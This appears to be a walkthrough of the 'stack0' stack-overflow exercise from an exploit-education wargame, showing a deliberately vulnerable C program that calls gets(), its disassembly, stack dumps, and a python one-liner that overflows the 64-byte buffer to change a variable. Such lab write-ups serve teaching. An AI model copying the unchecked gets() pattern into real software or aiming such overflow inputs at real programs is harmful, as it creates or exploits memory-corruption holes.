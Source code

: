 ```yaml
---
layout: default
---
```


Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

`main` function:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
From the asm of `main`, we find that:
1. `buffer` occupies `esp + 0x1c` until `esp + 0x58`. It is supposed to be 64-byte long.
2. `modified` occupies `esp + 0x5c`.

So, here are 96 bytes of memory starting at esp, before we input a value for <span style="color:aqua">buffer</span>:
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048469</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048450</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804845b</span>      <span style="color:orangered">0x00000000</span>
</pre>

and after:
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

buffer value:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
```
stack0 < input.txt

[back](./)
